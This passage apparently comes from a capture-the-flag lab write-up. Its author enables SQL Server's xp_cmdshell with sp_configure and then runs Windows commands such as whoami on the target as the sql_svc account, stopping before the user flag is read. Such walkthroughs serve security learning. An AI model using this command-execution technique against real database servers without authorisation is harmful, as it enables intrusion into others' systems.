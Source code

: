 Reading through official Microsoft documentation, I found that we can actually [run system commands from within SQL Server using the `xp_cmdshell`](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15). This is exactly what I was looking for as it enabled me to be able to interact with the remote target system. When I attempted to run this cmdlet, I received the following error:

```bash
SQL> xp_cmdshell "echo test"
 
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

Seems that we need to enable the use of the command somehow. Reading the [Microsoft documentation](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15#remarks) in greater depth, I found that the cmdlet is disabled by default. It also gave me the information I needed in order to enable it:

> `xp_cmdshell` is a very powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the Policy-Based Management or by executing `sp_configure`. For more information, see [Surface Area Configuration](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration?view=sql-server-ver15) and [`xp_cmdshell` Server Configuration Option](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver15).

I ran the following command to enable it:

```bash
sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

I then ran `reconfigure` as requested. I was now able to run any commands on the machine.
Since I speak a little bit of Batch, I ran a command to see which directory we’re currently in:

```bash
SQL> xp_cmdshell "echo The current directory is %CD%"
output                                                                             
 
--------------------------------------------------------------------------------   
 
The current directory is C:\Windows\system32                                       
SQL>whoami
output                                                                             
 
--------------------------------------------------------------------------------   
 
archetype\sql_svc 
```

Looks like the user we’re currently logged in with `sql_svc` who can run remote commands on the system. So now all that is left is to read the contents of the user flag in the desktop:
